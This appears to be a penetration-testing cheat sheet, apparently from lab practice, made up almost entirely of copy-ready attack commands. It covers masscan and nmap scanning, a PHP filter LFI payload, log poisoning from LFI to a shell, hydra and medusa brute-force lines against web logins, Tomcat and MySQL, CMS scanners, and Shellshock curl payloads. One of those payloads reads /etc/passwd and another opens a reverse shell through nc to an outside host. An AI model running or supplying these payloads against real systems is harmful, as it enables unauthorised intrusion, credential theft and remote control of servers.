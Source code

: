 ## Enum

### nmap
```
masscan -p1-65535 10.1.1.1 --rate=1000 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

nmap -Pn -sV -sC -p$ports 10.1.1.1
```
-sT TCP </br>
-sS Syn </br>
-sU UDP </br>

LFI php source code
------
```http://10.10.10.122/dev/index.php?view=php://filter/convert.base64-encode/resource=index```

### LFI to shell
#### General Idea: chain LFI with write access
#### inject to user agent, then LFI to /var/log
```
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access.log

others apache realated files:
 /usr/local/etc/apache22/httpd.conf
 /etc/apache2/apache2.conf
 /etc/httpd/conf/httpd.conf
 /usr/local/etc/apache22/httpd.conf
 /etc/apache2/apache2.conf
 /etc/httpd/conf/httpd.conf
```

#### LFI /proc/self/environ /proc/self/fd/
[https://highon.coffee/blog/lfi-cheat-sheet/](https://highon.coffee/blog/lfi-cheat-sheet/)
[https://www.exploit-db.com/papers/12992](https://www.exploit-db.com/papers/12992)

### Bruteforce
```
hydra -L /opt/seclist/Usernames/top-usernames-shortlist.txt -P cewl2 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=180&User=^USER^&Password=^PASS^:F=failed" -I -V

hydra -C tomcat-betterdefaultpasslist.txt -s 80 -f 10.11.1.237 http-get /webdav/ -V

hydra -l role -P tomcat-betterdefaultpasslist.txt  -e ns -t 15 -f -s -vV 10.10.10.101 -s 8080 http-get /
use -C for USER:PASS password file format
```
### TEMPLATE:
hydra -l [USERNAME] -P [WORDLIST] [TARGET] -s [Port] http-post-form "[URI-PATH-HERE] : [POST data from burp] : [Failed word]" -I -V

```
medusa -u root -P darkweb2017-top1000.txt -h 10.14.1.136 -M http -m DIR:/phpmyadmin/ -T 10
medusa -u root -P /usr/share/wordlists/rockyou.txt -h 10.14.1.11 -M mysql -n 3306 -T 16
```

### CMS stuff
```
wpscan --url $ip -e ap,tt,vt,u

droopescan scan drupal -u http://10.11.1.49/ -t 32 --enumerate ap    

cadaver 192.168.1.101/webdav

```
#### shellshock
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.11.1.71/cgi-bin/admin.cgi

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.39 1234 >/tmp/f'" http://10.11.1.71/cgi-bin/admin.cgi
```